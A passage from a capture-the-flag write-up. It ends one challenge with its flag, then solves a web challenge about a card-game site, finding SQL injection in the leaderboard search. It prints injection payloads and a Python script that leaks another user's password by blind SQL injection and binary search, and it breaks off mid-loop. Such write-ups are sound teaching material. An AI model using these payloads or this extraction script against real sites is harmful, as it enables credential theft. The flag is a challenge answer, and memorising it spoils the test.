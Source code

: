 ## Flag

`{FLG: I_4m_n0t_impressed_by_y0ur_perf0rm4nce}`


# Web-300

## Description

```
Becco Card Clash

The battle with Polyglot is a dizzying clash to the last drop. R-Boy uses his cunning to identify a weakness in Polyglot's language. He exploits it, and with a series of well-placed commands, he manages to defeat him.
```

## Solution

The website looks to be a portal for a Hearthstone-like game, with some extra features like the leaderboard, a non-functioning shop and a profile.

We quickly found out that there is a vulnerability in the leaderboard's search features by using payloads like `' and '2'='1` (no results) and `' or '1'='1` (all results).

The input was pretty filtered and we could not do a union based SQL injection, and the cards table was filtered as well. So we could only do 0/1 Blind based SQL injections. After some fiddling with the input, we discovered that we can access the password field from the main query, and when we input or own password in the WHERE query, we get back our user as the result (e.g. query `' OR password='ourpassword`).

We can use that to leak the password of other users, there's a particular user which seems interesting: `JeanKarlus Mannus the GOAT#uid` (the uid part is actually part of the username, as the database instances were separated for each individual user as to not leak passwords, which is a good move :) ).

I wrote a quick binary search to get JeanKarlus's password:

```py
import requests
import time

password = ''

def make_req(m):
    burp0_url = "http://gamebox1.reply.it:80/web3-22dea2262ffe964c0ad6e7f2c66262798103fe20/search"
    burp0_cookies = {"session": "<SESSION COOKIE>"}

    burp0_headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "Origin": "http://gamebox1.reply.it", "Content-Type": "application/x-www-form-urlencoded", "User-Agent": "<USER AGENT>", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Referer": "http://gamebox1.reply.it/web3-22dea2262ffe964c0ad6e7f2c66262798103fe20/leaderboard", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "en-GB,en-US;q=0.9,en;q=0.8", "Connection": "close"}
    burp0_data = {"csrf_token": "<CSRF TOKEN>",
                  "query": "' or (unicode(substr(password,%d,1))<%%d and id > 2) or '1'='2" % (len(password) + 1, m)}
    r = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data, proxies={'http': 'http://127.0.0.1:8080'})
    time.sleep(1)
    return 'Mannus the GOAT' in r.text


while True:
    left, right = 0, 127
```